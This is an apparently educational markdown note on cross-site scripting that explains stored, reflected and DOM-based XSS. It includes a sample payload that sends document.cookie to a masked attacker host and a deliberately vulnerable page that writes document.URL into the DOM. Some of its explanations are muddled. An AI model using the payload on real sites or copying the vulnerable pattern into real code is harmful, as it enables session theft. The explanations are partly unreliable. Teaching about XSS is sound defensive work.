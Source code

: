 Below are some of the common vulnerabilities faced by most enterprise web applications. 

#Cross-Site Scripting:

It is a type of vulnerability in which there is no proper input validation happening at client side which leads to injecting malicious script to web server which is reflected off from the server also called as reflected XSS. There can be other types of XSS attacks.

In stored XSS, the malicous script being sent from browser to server gets stored in the database as part of the request and then the attacker can retrieve back those malicious scripts from the web server which is highly vulnerable.

##Types of XSS:
Cross site scripting can be classifed into 3 major categories as listed below:

* Stored/persistence XSS
* Reflected XSS
* Dom based XSS

###Stored XSS:

It is also called persistence XSS and is considered to be a harmful XSS vulnerability. This involves attacker injecting malicious javascript code in the application which results in storing of those scripts on the database server. Whenever someone tries to access data in the same application, then the user gets the malicious script having queried the database which is highly vulnerable.

Example :
```
<script>
   <alert>document.location="http://***.com"+document.cookie </alert>
</script>
```

###Reflected XSS:

In this XSS vulnerability, the javascript injected to the application gets reflected back and gets executed in the victims browser hence revealing crucial information (session cookie) to the attacker. It is not considered to be highly vulnearble XSS type.

###DOM based XSS:

It is an advanced and most vulnerable type of XSS attack in which web applications client side scripts write user provided data to Document Object Model(DOM) and then this data is read from the DOM by the web application and output to browser. If this data is not handled properly then attacker can inject maliciuos payload which gets stored as DOM and gets executed when data is read from DOM. It becomes highly vulnerable for the web application and also web application firewall and security cannot find anything in the server log. 
Various object models which can be used to inject malicious payload are document.URL, document.referrer, document.location 

###Example of DOM based XSS attack :

```
<html>
<head>
<title>My Dashboard Demo</title>
...
</head>
Main Dashboard for
<script>
    var pos=document.URL.indexOf("context=");
    document.write(document.URL.substring(pos,document.URL.length));
</script>
...
</html>

```
